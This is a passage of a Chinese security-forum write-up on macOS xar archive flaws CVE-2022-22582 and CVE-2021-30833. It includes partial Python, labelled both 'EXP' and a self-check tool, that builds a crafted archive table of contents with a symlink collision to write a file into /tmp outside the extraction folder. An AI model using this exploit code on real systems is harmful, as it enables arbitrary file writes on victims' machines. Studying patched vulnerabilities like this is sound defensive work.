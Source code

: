 我们可以看到该文件已成功创建

![d10c3fc6c333b94f11720aa7166a94f.jpg](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-eebcd29b19485359178c600cd4beab480b10faeb.jpg)

0x04 漏洞批量自查程序
-------------

程序在**官方发布补丁后**已经被公布，用来检测漏洞

```python
import zlib
import hashlib

#### CVE-2022-22582 EXP
#### CVE-2021-30833 EXP

magic = 'xar!'.encode()
size = int.to_bytes(28,2,'big')
version = int.to_bytes(28,2,'big')

mydata = b'1111111'

datahash=str(hashlib.sha1(mydata).hexdigest())
datalength=str(len(mydata))

fnm='testing.sh'

xmlxx = f'''<?xml version="1.0" encoding="UTF-8"?>
    <xar>
     <toc>
      <checksum style="sha1">
       <offset>0</offset>
       <size>20</size>
      </checksum>
      <file id="1">
        <name>.x</name>
      <type>directory</type>
      <file id="2">
      <name>{fnm}</name>
      <type>file</type>
        <data>
        <archived-checksum style="sha1">{datahash}</archived-checksum>
        <extracted-checksum style="sha1">{datahash}</extracted-checksum>
         <size>{datalength}</size>
         <offset>20</offset>
         <encoding style="application/octet-stream"/>
         <length>{datalength}</length>
        </data>
        </file>
       </file>
       <file id="3">
         <name>.x</name>
         <type>symlink</type>
       <link type="directory">/tmp/</link>
       </file>
     </toc>
    </xar>'''

compressed = zlib.compress(xmlxx.encode('utf-8'), 9)

h = hashlib.sha1(compressed).digest()

toc_length_compressed = int.to_bytes(len(compressed),8,'big')

toc_length_uncompressed = int.to_bytes(len(xmlxx.encode('utf-8')),8,'big')
```